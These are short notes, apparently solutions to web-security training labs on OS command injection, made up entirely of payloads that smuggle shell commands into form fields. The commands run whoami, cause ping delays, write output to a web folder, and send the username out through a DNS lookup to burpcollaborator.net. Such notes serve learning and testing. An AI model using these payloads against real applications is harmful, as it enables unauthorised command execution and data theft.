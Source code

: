 # OS command injection

## OS command injection, simple case
```
productId=1&storeId=1+%26+whoami+%26
```

## Blind OS command injection with time delays
```
email=jan%40foo.net||ping+-c+10+127.0.0.1||
```

## Blind OS command injection with output redirection
```
email=jan%40foo.net||whoami>/var/www/images/whoami.txt||
```

## Blind OS command injection with out-of-band interaction
```
email=jan%40foo.net||nslookup+burpcollaborator.net||
```

## Blind OS command injection with out-of-band data exfiltration
```
email=||nslookup+`whoami`.ttqw3(...).burpcollaborator.net||
```
Burp Collaborator interaction: `peter-WZSq1i.ttqw3gbwcea26g1r6yl4nup1lsrif7.burpcollaborator.net.`